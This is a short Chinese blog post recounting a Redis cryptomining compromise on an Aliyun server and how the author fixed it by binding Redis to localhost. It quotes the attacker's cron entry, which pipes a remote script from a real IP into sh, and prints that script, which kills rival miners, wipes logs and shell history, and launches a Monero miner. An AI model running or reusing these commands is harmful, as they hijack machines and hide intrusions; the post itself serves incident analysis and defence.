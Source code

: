 # coder| redis 漏洞导致被挖矿

## 事件回顾

用 [Redis Desktop Manager](https://redisdesktop.com/) 连接我在 aliyun 上的机器，突然发现多了一个键：

```
get agjriuqpxa
*/1 * * * * /usr/bin/curl -fsSL http://98.142.140.13:8220/test11.sh | sh
```

访问 http://98.142.140.13:8220/test11.sh：

```
#!/bin/bash
(ps auxf|grep -v grep|grep stratum |awk '{print $2}'|xargs kill -9;crontab -r;pkill -9 minerd;pkill -9 i586;pkill -9 gddr;pkill -9 yam;echo > /var/log/wtmp;history -c;cd ~;curl -L http://98.142.140.13:8220/minerd -o minerd;chmod +x minerd;setsid /root/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:3333 -u 41e2vPcVux9NNeTfWe8TLK2UWxCXJvNyCQtNb69YEexdNs711jEaDRXWbwaVe4vUMveKAzAiA4j8xgUi29TpKXpm3zKTUYo -p x &>>/dev/null)
```

分析可知：

- 通过配置 crontab，下载 sh 脚本
- sh 脚本中下载挖矿文件 `minerd`，然后运行

## 事件分析

redis 漏洞，可以回写数据到本地文件，这样就可以做很多事了：比如上面这样，新增一个 crontab 来挖矿

## how

这已经是第三次经历挖矿了，第一次和第二次都是公司的 aliyun 测试机，大家发现 cpu 跑满，top 后发现了挖矿脚本。第一次清理了 crontab（包括用户的和系统的），知道第二次再次出现，才定位到是redis的漏洞。

处理办法：

- 公司是修改 `redis.conf`，添加 `bind 127.0.0.1`
- 我 aliyun 上使用 docker 来部署的环境，所以上面 crontab 中的命令根本 **跑不起来**

## 写在最后

- https://blog.csdn.net/hu_wen/article/details/51908597